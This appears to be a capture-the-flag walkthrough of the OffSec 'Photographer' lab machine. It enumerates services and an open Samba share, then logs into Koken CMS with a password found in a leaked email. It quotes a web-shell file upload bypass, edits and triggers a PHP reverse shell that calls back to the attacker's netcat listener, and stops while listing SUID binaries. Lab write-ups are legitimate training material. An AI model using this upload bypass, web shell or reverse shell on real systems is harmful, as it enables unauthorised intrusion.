






# Photographer

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 5
Lab Description:
This lab challenges you to exploit an authenticated file upload vulnerability in Koken CMS v0.22.24, 
leading to remote code execution. The CMS credentials are retrieved from a publicly accessible 
Samba share. Privilege escalation is achieved via SUID misconfiguration on the /usr/bin/php7.2 binary.
Released: 2 Sep 2020
```

Machine link: [https://portal.offsec.com/machine/photographer-364/overview/details](https://portal.offsec.com/machine/photographer-364/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ export TARGET_IP=192.168.148.76       

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ sudo nmap -sC -sV -p- $TARGET_IP  
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 13:23 CET
Nmap scan report for 192.168.148.76
Host is up (0.033s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:4d:aa:18:86:94:8e:88:a7:4c:6b:42:60:76:f1:4f (RSA)
|   256 4d:a3:d0:7a:8f:64:ef:82:45:2d:01:13:18:b7:e0:13 (ECDSA)
|_  256 1a:01:7a:4f:cf:95:85:bf:31:a1:4f:15:87:ab:94:e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: daisa ahomi
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: Koken 0.22.24
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2026-02-22T07:23:26-05:00
| smb2-time: 
|   date: 2026-02-22T12:23:28
|_  start_date: N/A
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.09 seconds
```

We have three services running:

- OpenSSH 7.2p2 on port 22
- Apache httpd 2.4.18 on port 80 and 8000
- Samba smbd 3.X - 4.X on port 139
- Samba smbd 4.3.11 on port 445

### Analyse the web service

Next, we analyse the contents of the web server on both ports.

On port 80 we find a photography site


On port 8000 we find an empty Koken CMS site



[Koken](https://www.koken.me/) is/was a free website publishing system developed for photographers. The project is now abandoned.

Doing some basic web enumeration with nmap, we find nothing exciting

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ nmap -v -p80 --script http-enum $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 13:38 CET
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 13:38
Completed NSE at 13:38, 0.00s elapsed
Initiating Ping Scan at 13:38
Scanning 192.168.148.76 [4 ports]
Completed Ping Scan at 13:38, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:38
Completed Parallel DNS resolution of 1 host. at 13:38, 0.01s elapsed
Initiating SYN Stealth Scan at 13:38
Scanning 192.168.148.76 [1 port]
Discovered open port 80/tcp on 192.168.148.76
Completed SYN Stealth Scan at 13:38, 0.08s elapsed (1 total ports)
NSE: Script scanning 192.168.148.76.
Initiating NSE at 13:38
Completed NSE at 13:38, 3.47s elapsed
Nmap scan report for 192.168.148.76
Host is up (0.034s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'

NSE: Script Post-scanning.
Initiating NSE at 13:38
Completed NSE at 13:38, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.84 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

### Search for exploits

Next, we search for available Koken exploits

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ searchsploit koken              
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                                                                                                                  | php/webapps/48706.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ searchsploit -m 48706
  Exploit: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
      URL: https://www.exploit-db.com/exploits/48706
     Path: /usr/share/exploitdb/exploits/php/webapps/48706.txt
    Codes: N/A
 Verified: False
File Type: ASCII text
Copied to: /mnt/hgfs/OffSec_PG/PG_Play/Easy/Photographer/48706.txt

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ cat 48706.txt  
# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
# Date: 2020-07-15
# Exploit Author: v1n1v131r4
# Vendor Homepage: http://koken.me/
# Software Link: https://www.softaculous.com/apps/cms/Koken
# Version: 0.22.24
# Tested on: Linux
# PoC: https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

   <?php system($_GET['cmd']);?>

2. Save as "image.php.jpg"

3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"


POST /koken/api.php?/content HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/koken/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------2391361183188899229525551
Content-Length: 1043
Connection: close
Cookie: PHPSESSID= [Cookie value here]

-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="name"

image.php
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunk"

0
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunks"

1
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="upload_session_start"

1594831856
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="visibility"

public
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="license"

all
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="max_download"

none
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="file"; filename="image.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']);?>

-----------------------------2391361183188899229525551--


5. On Koken CMS Library, select you file and put the mouse on "Download File" to see where your file is hosted on server.    

```

The file tell us that there is an admin page. We find it at `http://192.168.148.76:8000/admin/`



But we lack credentials to login.

### Analyse the SMB service

Next, we turn our attention to the SMB service instead and check for shares

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ crackmapexec smb $TARGET_IP -u Guest -p '' --shares
SMB         192.168.148.76  445    PHOTOGRAPHER     [*] Windows 6.1 (name:PHOTOGRAPHER) (domain:) (signing:False) (SMBv1:True)
SMB         192.168.148.76  445    PHOTOGRAPHER     [+] \Guest: 
SMB         192.168.148.76  445    PHOTOGRAPHER     [+] Enumerated shares
SMB         192.168.148.76  445    PHOTOGRAPHER     Share           Permissions     Remark
SMB         192.168.148.76  445    PHOTOGRAPHER     -----           -----------     ------
SMB         192.168.148.76  445    PHOTOGRAPHER     print$                          Printer Drivers
SMB         192.168.148.76  445    PHOTOGRAPHER     sambashare      READ            Samba on Ubuntu
SMB         192.168.148.76  445    PHOTOGRAPHER     IPC$                            IPC Service (photographer server (Samba, Ubuntu))
```

We have read access to a `sambashare`.

Let's check the share for available files recursively

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ smbmap -H $TARGET_IP -r sambashare

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 192.168.148.76:445      Name: 192.168.148.76            Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        sambashare                                              READ ONLY       Samba on Ubuntu
        ./sambashare
        dr--r--r--                0 Thu Aug 20 17:51:08 2020    .
        dr--r--r--                0 Thu Aug 20 18:08:59 2020    ..
        fr--r--r--              503 Tue Jul 21 03:29:39 2020    mailsent.txt
        fr--r--r--         13930308 Tue Jul 21 03:22:23 2020    wordpress.bkp.zip
        IPC$                                                    NO ACCESS       IPC Service (photographer server (Samba, Ubuntu))
[*] Closed 1 connections  
```

Next, we connect to the share and download these files

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ smbclient -N //$TARGET_IP/sambashare 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Aug 20 17:51:08 2020
  ..                                  D        0  Thu Aug 20 18:08:59 2020
  mailsent.txt                        N      503  Tue Jul 21 03:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 03:22:23 2020

                3300080 blocks of size 1024. 2958792 blocks available
smb: \> mget *
Get file mailsent.txt? y
getting file \mailsent.txt of size 503 as mailsent.txt (3.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
Get file wordpress.bkp.zip? y
getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip (12931.4 KiloBytes/sec) (average 11490.1 KiloBytes/sec)
smb: \> quit
```

### Analyse the downloaded files

Now we can analyse the files

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ cat mailsent.txt                                   
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

We have the following:

- Usernames
  - `agi`
  - `daisa`
- E-mails
  - `agi@photographer.com`
  - `daisa@photographer.com`

And perhaps `babygirl` could be a password!?

### Try to login on Koken

We try to login with `daisa@photographer.com:babygirl` and we are successful.



### Prepare a reverse shell

Now we ought to be able to follow the exploit information and upload a reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ webshells                                                         

> webshells ~ Collection of webshells

/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php

┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cd php        

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ ls       
findsocket  php-backdoor.php  php-reverse-shell.php  qsd-php-backdoor.php  simple-backdoor.php

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cp php-reverse-shell.php /mnt/hgfs/OffSec_PG/PG_Play/Easy/Photographer/image.php.jpg

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cd /mnt/hgfs/OffSec_PG/PG_Play/Easy/Photographer                                    

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ vi image.php.jpg 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ head -n 20 image.php.jpg                                                   
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.198';  // CHANGE THIS
$port = 12345;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ 
```

### Upload the reverse shell

Next, start Burp and set Intercept to On.

Then we upload the reverse shell by clicking the `Import content` button in the lower right corner.



Click `Import` and check the intercepted request.

Change the name to `image.php` (remove the `.jpg` extension) on two places

```text
<----snip---->
-----------------------------336002685526055710771135148818

Content-Disposition: form-data; name="name"


image.php
-----------------------------7419719451719042322996707132
<----snip---->

-----------------------------7419719451719042322996707132

Content-Disposition: form-data; name="file"; filename="image.php"

Content-Type: image/jpeg


<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
<----snip---->
```

Then forward the request and turn Intercept off.

In Koken, change the view mode to `Thumbnails` in the lower right.

The path to the uploaded file is shown to the right under `SITE` and `Link`



Navigate to this path with a browser and hover over the `Download File` text to see the file location



Then we trigger the reverse shell with curl

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ curl "http://192.168.148.76:8000/storage/originals/55/71/image.php"
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
```

### Get a reverse shell

Back at the netcat listener, we now have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.148.76] 56904
Linux photographer 4.15.0-115-generic #116~16.04.1-Ubuntu SMP Wed Aug 26 17:36:48 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:06:37 up 6 min,  0 users,  load average: 0.02, 0.10, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Upgrade and stabilize the shell

Next, we upgrade our shell to a stable TTY shell

```bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@photographer:/$ ^Z
zsh: suspended  nc -lvnp 12345
                                                                                                                                                                                                             
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Play/Easy/Photographer]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  nc -lvnp 12345

www-data@photographer:/$ export SHELL=bash
www-data@photographer:/$ export TERM=xterm-256color
www-data@photographer:/$ stty rows 200 columns 200
www-data@photographer:/$ ^C
www-data@photographer:/$ 
```

### Get the user flag

Now we can search for the user flag

```bash
www-data@photographer:/$ find / -type f -name local.txt 2>/dev/null    
/home/daisa/local.txt
www-data@photographer:/$ cat /home/daisa/local.txt
c<REDACTED>2
www-data@photographer:/$ 
```

### PrivEsc enumeration

We then enumerate the system for privilege escalation opportunities.

We start with checking the home directory

```bash
www-data@photographer:/$ cd /home
www-data@photographer:/home$ ls -l
total 24
drwxr-xr-x 17 agi   agi    4096 Aug 20  2020 agi
drwxr-xr-x 16 daisa daisa  4096 Aug 20  2020 daisa
drwx------  2 root  root  16384 Feb 28  2019 lost+found
www-data@photographer:/home$ cd daisa
www-data@photographer:/home/daisa$ ls -la
total 108
drwxr-xr-x 16 daisa daisa 4096 Aug 20  2020 .
drwxr-xr-x  5 root  root  4096 Aug 20  2020 ..
-rw-------  1 daisa daisa  966 Jul 20  2020 .ICEauthority
-rw-------  1 daisa daisa   52 Jul 20  2020 .Xauthority
lrwxrwxrwx  1 daisa daisa    9 Aug 20  2020 .bash_history -> /dev/null
-rw-r--r--  1 daisa daisa  220 Feb 28  2019 .bash_logout
-rw-r--r--  1 daisa daisa 3771 Feb 28  2019 .bashrc
drwx------ 11 daisa daisa 4096 Aug 20  2020 .cache
drwx------  3 daisa daisa 4096 Aug 20  2020 .compiz
drwx------ 14 daisa daisa 4096 Aug 20  2020 .config
-rw-r--r--  1 daisa daisa   25 Feb 28  2019 .dmrc
drwx------  2 daisa daisa 4096 Aug 20  2020 .gconf
drwx------  3 daisa daisa 4096 Aug 20  2020 .gnupg
drwx------  3 daisa daisa 4096 Aug 20  2020 .local
-rw-r--r--  1 daisa daisa  655 Feb 28  2019 .profile
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Desktop
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Documents
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Downloads
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Music
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Pictures
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Public
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Templates
drwxr-xr-x  2 daisa daisa 4096 Aug 20  2020 Videos
-rw-r--r--  1 daisa daisa 8980 Feb 28  2019 examples.desktop
-rw-r--r--  1 daisa daisa   33 Feb 22 09:02 local.txt
-rw-r--r--  1 daisa daisa   43 Aug 20  2020 user.txt
www-data@photographer:/home/daisa$
```

But nothing really stands out.

Next, we check for SUID and GUID binaries

```bash
www-data@photographer:/home/daisa$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -ls 2> /dev/null
   202519     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   204448     16 -rwxr-sr-x   1 root     mail          14336 Jul  8  2020 /usr/lib/evolution/camel-lock-helper-1.2
   205017     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   202125     12 -rwsr-sr-x   1 root     root          10584 Aug 31  2020 /usr/lib/xorg/Xorg.wrap
   206762    112 -rwsr-xr-x   1 root     root         110792 Jul 10  2020 /usr/lib/snapd/snap-confine
   207738    420 -rwsr-xr-x   1 root     root         428240 May 26  2020 /usr/lib/openssh/ssh-keysign
   222865     12 -rwxr-sr-x   1 root     utmp          10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
   222375     20 -rwsr-xr-x   1 root     root          18664 Mar 18  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
   201262     16 -rwsr-xr-x   1 root     root          14864 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   207508    388 -rwsr-xr--   1 root     dip          394984 Jul 23  2020 /usr/sbin/pppd
   210132     24 -rwsr-xr-x   1 root     root          23376 Mar 27  2019 /usr/bin/pkexec
   201259     56 -rwsr-xr-x   1 root     root          54256 May 16  2017 /usr/bin/passwd
   201196     40 -rwsr-xr-x   1 root     root          39904 May 16  2017 /usr/bin/newgrp
   200466     64 -rwxr-sr-x   1 root     shadow        62336 May 16  2017 /usr/bin/chage
   200637     24 -rwxr-sr-x   1 root     shadow        22768 May 16  2017 /usr/bin/expiry
   205774    352 -rwxr-sr-x   1 root     ssh          358624 May 26  2020 /usr/bin/ssh-agent
   201145     40 -rwxr-sr-x   1 root     mlocate       39520 Nov 18  2014 /usr/bin/mlocate
   200794     76 -rwsr-xr-x   1 root     root          75304 May 16  2017 /usr/bin/gpasswd
   201895     28 -rwxr-sr-x   1 root     tty           27368 May 16  2018 /usr/bin/wall
   208196   4776 -rwsr-xr-x   1 root     root        4883680 Jul  9  2020 /usr/bin/php7.2
